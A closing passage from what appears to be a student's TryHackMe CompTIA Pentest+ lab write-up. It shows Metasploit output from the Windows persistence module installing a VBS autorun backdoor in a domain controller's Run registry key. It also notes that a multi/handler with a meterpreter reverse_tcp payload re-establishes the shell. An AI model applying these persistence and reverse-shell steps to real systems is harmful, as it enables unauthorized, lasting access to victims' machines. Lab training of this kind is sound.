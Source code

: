 ```bash
msf6 exploit(windows/local/persistence) > exploit

[*] Running persistent module against DOMAIN-CONTROLL via session ID: 1
[+] Persistent VBS script written on DOMAIN-CONTROLL to C:\Users\Administrator\AppData\Local\Temp\negcrtIKCVg.vbs
[*] Installing as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\oIsChbsA
[+] Installed autorun on DOMAIN-CONTROLL as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\oIsChbsA
[*] Clean up Meterpreter RC file: /home/kali/.msf4/logs/persistence/DOMAIN-CONTROLL_20210815.4604/DOMAIN-CONTROLL_20210815.4604.rc
msf6 exploit(windows/local/persistence) >
```
Above runs the persistence exploit.

With this, if the target machine dies, the persistence module creates a backdoor to get the meterpreter shell running again. 

All that needs to be done is to ensure the 

>multi/handler exploit

is selected in Metasploit and run that. The payload needs to be set to 'windows/meterpreter/reverse_tcp' however as that is used to send the meterpreter payload.

# End of CompTIA Pentest+ !!!!

And this marks the day I finish the Tryhackme CompTIA Pentest+. While I want to say this was easy, it got progressively tougher the further I went. However, I learned a lot from this module and I'm looking forward to solve the other rooms now and also redo certain rooms in this module.


